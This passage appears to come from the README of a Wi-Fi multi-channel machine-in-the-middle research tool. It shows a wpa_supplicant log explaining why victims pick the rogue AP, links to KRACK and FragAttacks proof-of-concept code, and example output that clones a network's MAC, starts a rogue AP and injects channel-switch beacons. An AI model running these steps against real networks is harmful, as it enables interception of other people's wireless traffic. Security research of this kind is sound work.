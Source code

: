 		wlan1: Event SCAN_RESULTS (3) received
		wlan1: Scan completed in 8.591472 seconds
		nl80211: Received scan results (2 BSSes)
		wlan1: BSS: Start scan result update 1
		wlan1: BSS: Add new id 0 BSSID 02:00:00:00:00:00 SSID 'testnetwork' freq 2462
		BSS: 02:00:00:00:00:00 has multiple entries in the scan results - select the most current one
		Previous last_update: 109926.096453 (freq 2462)
		New last_update: 109925.251453 (freq 2412)
		Ignore this BSS entry since the previous update looks more current
		BSS: last_scan_res_used=1/32
		wlan1: New scan results available (own=1 ext=0)

  When `wpa_supplicant` notices duplicate scan results for the same AP/BSS, it will pick the
  latest one. This means that to assure the victim Linux client will connect to the rogue AP on
  the rogue channel, we need to assure that the scan result of the rogue AP is the latest one.


<a id="usage"></a>
# 6. Usage in research

The current Python code is based on older MC-MitM version, and those older versions were used in
the following research or projects:

- The first implementation of the multi-channel machine-in-the-middle was done in C and only supported
  Atheros Wi-Fi dongles. See the [ModWifi MC-MitM code](https://github.com/vanhoefm/modwifi#channel-mitm-and-tkip-broadcast-attack).

- The [KRACK all-zero key PoC](https://github.com/vanhoefm/krackattacks-poc-zerokey/blob/research/krackattack/krack-all-zero-tk.py)
  is the first implementation of the MC-MitM position in Python.

- Others [reproduced the above KRACK all-zero key PoC and added comments to the code](https://github.com/lucascouto/krackattack-all-zero-tk-key).
  These comments may be useful to further understand the code.

- The above Python MC-MitM was also used as the basis for the proof-of-concept attacks for the
  [FragAttacks](https://fragattacks.com) research. This code is currently not public but can be
  requested if you want to do research with it.


<a id="example-output"></a>
# 7. Example output

## Against simulated Linux interfaces (Jan 1, 2022)

	[mathy@zbook-mathy mc-mitm]$ ./pysetup.sh
	[mathy@zbook-mathy mc-mitm]$ sudo su
	[root@zbook-mathy mc-mitm]# source venv/bin/activate
	(venv) [root@zbook-mathy mc-mitm]# ./mc-mitm.py wlan2 wlan3 testnetwork --target 02:00:00:00:01:00 --continuous-csa
	[01:39:07] Note: disable Wi-Fi in your network manager so it doesn't interfere with this script
	[01:39:07] Note: keep >1 meter between interfaces. Else packet delivery is unreliable & target may disconnect
	[01:39:07] Monitor mode: using wlan2 on real channel and wlan3 on rogue channel.
	[01:39:07] Searching for target network...
	[01:39:07] Target network 02:00:00:00:00:00 detected on channel 1
	[01:39:07] Will use wlan3ap to create rogue AP on channel 11
	[01:39:07] Setting MAC address of wlan3ap to 02:00:00:00:00:00
	[01:39:07] Starting AP using: iw dev wlan3ap ap start testnetwork 2462 100 1 head 80000000ffffffffffff02000000000002000000000000000d01f80f29f1050064001104000b746573746e6574776f726b010882848b960c12182403010b tail 2a010432043048606c30140100000fac040100000fac040100000fac020c003b0251007f080400400000000040dd180050f2020101010003a4000027a4000042435e0062322f00
	[01:39:07] Giving the rogue AP one second to initialize ...
	[01:39:08] Injected 4 CSA beacon pairs (moving stations to channel 11)